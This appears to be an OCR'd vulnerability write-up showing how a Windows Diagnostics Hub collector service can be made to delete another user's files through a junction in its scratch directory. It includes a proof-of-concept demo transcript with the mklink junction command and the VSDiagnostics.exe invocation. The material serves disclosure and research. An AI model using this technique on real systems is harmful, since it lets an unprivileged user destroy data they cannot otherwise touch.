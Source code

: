 If `EP` is a junction that points to the external directory to be deleted and we keep a handle open to this reparse point (the EP directory itself), we can easily route the execution flow 
to actually delete files outside the scratch directory.

Demo:

A "secret" file of a victim user:

```
Microsoft Windows [Version 10.0.19042.630]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\irsl>whoami
windows-10-dev-\irsl

C:\Users\irsl>mkdir secret

C:\Users\irsl>echo secret > secret\secret.txt
```

The local attacker:

```
C:\111\poc-1\poc-1\bin>whoami
windows-10-dev-\unprivileged

C:\111\poc-1\poc-1\bin>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\111\poc-1\poc-1\bin>type C:\Users\irsl\secret\secret.txt
Access is denied.

C:\111\poc-1\poc-1\bin>del C:\Users\irsl\secret\secret.txt
Access is denied.

C:\111\poc-1\poc-1\bin>DiagHubFileDeletePoc.exe
Usage: DiagHubFileDeletePoc path-to-a-dir-for-scratch path-to-directory-to-be-deleted

C:\111\poc-1\poc-1\bin>DiagHubFileDeletePoc.exe c:\111\poc-1\workdir C:\Users\irsl\secret
Case sensitive dir created successfully c:\111\poc-1\workdir\diaghub-delete-poc
Exeucuting command: CMD.exe /c mklink /d /j "c:\111\poc-1\workdir\diaghub-delete-poc\Etw" "c:\111\poc-1\workdir\diaghub-delete-poc\etw"
Junction created for c:\111\poc-1\workdir\diaghub-delete-poc\Etw <<===>> c:\111\poc-1\workdir\diaghub-delete-poc\etw
Preparation succeeded
Exeucuting command: VSDiagnostics.exe start 79FE9A49-935D-430B-B619-C919D9A46D22 /loadAgent:514a5e80-cc1b-4844-9139-0da4afdcf814;NetworkCollectionAgent.dll /scratchLocation:c:\111\poc-1\workdir\diaghub-delete-poc\Etw

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
Got the collector service reference
Scratch path: c:\111\poc-1\workdir\diaghub-delete-poc\Etw
Creating a new session with guid: 79fe9a49-935d-430b-b619-c919d9a46d22
Session created
```